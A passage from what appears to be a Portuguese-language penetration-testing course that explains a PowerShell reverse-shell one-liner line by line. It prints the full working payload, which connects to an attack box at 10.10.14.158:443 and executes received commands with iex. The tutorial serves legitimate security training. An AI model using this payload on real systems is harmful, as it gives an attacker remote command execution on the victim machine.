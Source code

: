 ## PowerShell One-liner explicado
Os shells e payloads que escolhemos usar dependem amplamente de qual SO estamos atacando. Tenha isso em mente à medida que continuamos no módulo. Testemunhamos isso na seção de shells reversos ao estabelecer um shell reverso com um sistema Windows usando o PowerShell. Vamos analisar o one-liner que usamos:

#### Powershell One-Liner
```cmd-session
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Dissecaremos o comando PowerShell bastante grande que você pode ver acima. Pode parecer muito, mas espero que possamos desmistificá-lo um pouco.

#### Chamando o PowerShell
```cmd-session
powershell -nop -c 
```
Executa `powershell.exe`sem perfil ( `nop`) e executa o bloco de comando/script ( `-c`) contido nas aspas. Este comando em particular é emitido dentro do prompt de comando, e é por isso que o PowerShell está no início do comando.

É bom saber como fazer isso se descobrirmos uma vulnerabilidade de Execução Remota de Código que nos permite executar comandos diretamente em `cmd.exe`.

#### Ligando um soquete
```cmd-session
"$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,443);
```
Define/avalia a variável `$client`igual a ( `=`) o `New-Object`cmdlet, que cria uma instância do `System.Net.Sockets.TCPClient`objeto do .NET framework. O objeto do .NET framework se conectará ao soquete TCP listado entre parênteses `(10.10.14.158,443)`. O ponto e vírgula ( `;`) garante que os comandos e o código sejam executados sequencialmente.

#### Configurando o fluxo de comando
```cmd-session
$stream = $client.GetStream();
```
Define/avalia a variável `$stream`igual a ( `=`) a `$client`variável e o método do framework .NET chamado [GetStream](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.getstream?view=net-5.0) que facilita as comunicações de rede. O ponto e vírgula ( `;`) garante que os comandos e o código sejam executados sequencialmente.

#### Fluxo de bytes vazio
```cmd-session
[byte[]]$bytes = 0..65535|%{0}; 
```
Cria um array de tipo byte ( `[]`) chamado `$bytes`que retorna 65.535 zeros como valores no array. Este é essencialmente um fluxo de bytes vazio que será direcionado ao ouvinte TCP em uma caixa de ataque aguardando uma conexão.
